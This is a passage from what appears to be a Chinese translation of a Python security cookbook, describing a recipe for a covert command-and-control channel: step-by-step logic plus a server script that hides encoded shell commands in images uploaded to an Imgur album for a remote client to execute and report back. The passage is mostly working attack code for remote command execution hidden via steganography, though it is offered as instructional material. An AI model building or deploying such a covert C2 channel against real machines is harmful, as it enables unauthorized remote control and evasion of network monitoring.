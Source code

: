 此配方还将从上一配方导入完整的 stego 文本脚本。

## 怎么做…

这个食谱的运作方式分为两部分。我们将有一个脚本运行并充当服务器，另一个脚本运行并充当客户端。我们的脚本将遵循的基本步骤如下所示：

1.  服务器脚本已运行。
2.  服务器等待客户端宣布它已准备就绪。
3.  客户端脚本正在运行。
4.  客户端通知服务器它已经准备好了。
5.  服务器显示客户端正在等待，并提示用户将命令发送到客户端。
6.  服务器发送一个命令。
7.  服务器等待响应。
8.  客户端接收命令并运行它。
9.  客户端将命令的输出发送回服务器。
10.  服务器接收来自客户端的输出并将其显示给用户。
11.  重复步骤 5 至 10，直到发送`quit`命令。

考虑到这些步骤，让我们先看看服务器脚本：

```py
from imgurpython import ImgurClient
import StegoText, random, time, ast, base64

def get_input(string):
    ''' Get input from console regardless of python 2 or 3 '''
    try:
        return raw_input(string)
    except:
        return input(string)

def create_command_message(uid, command):
    command = str(base64.b32encode(command.replace('\n','')))
    return "{'uuid':'" + uid + "','command':'" + command + "'}"

def send_command_message(uid, client_os, image_url):
    command = get_input(client_os + "@" + uid + ">")
    steg_path = StegoText.hide_message(image_url, create_command_message(uid, command), "Imgur1.png", True)
    print "Sending command to client ..."
    uploaded = client.upload_from_path(steg_path)
    client.album_add_images(a[0].id, uploaded['id'])

    if command == "quit":
        sys.exit()

    return uploaded['datetime']

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client = authenticate()
a = client.get_account_albums("C2ImageServer")
```